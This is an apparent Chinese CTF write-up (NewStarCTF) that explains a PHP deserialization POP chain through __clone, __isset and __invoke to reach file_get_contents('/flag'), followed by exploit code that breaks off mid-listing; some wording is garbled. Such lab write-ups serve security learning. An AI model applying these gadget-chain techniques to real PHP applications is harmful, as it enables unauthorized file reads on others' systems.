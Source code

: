 我们将Easy钟大哥cla设置为eeee类会触发**__clone**

```php
public function __clone()
    {
        if(isset($this->obj->cmd)){
            echo "success";
        }
    }
```

由于eeee类中没有cm'd属性，这里调用会触发**__isset**

我们将eeee中的obj设置为Start类

```php
public function __isset($var)
    {
        ($this->func)();
    }
```

这里的 **($this->func)();**可以出发**__invoke**

我们将Start中的func改为Sec类即可出发成功

```php
public function __invoke()
    {
        echo file_get_contents('/flag');
    }
```

**pop链**

```php
<?php
//error_reporting(0);
//highlight_file(__FILE__);
#Something useful for you : https://zhuanlan.zhihu.com/p/377676274
class Start{
    public $name;
    public $func;
    public function __construct(){
        $this->func=new Sec();
        $this->name=new Sec();
    }
    public function __destruct()
    {
        echo "Welcome to NewStarCTF, ".$this->name;
    }

    public function __isset($var)
    {
        ($this->func)();
    }
}

class Sec{
    public $obj;
    public $var;
    public function __construct(){
        $this->obj=new Easy();

    }
    public function __toString()
    {
        $this->obj->check($this->var);
        return "CTFers";
```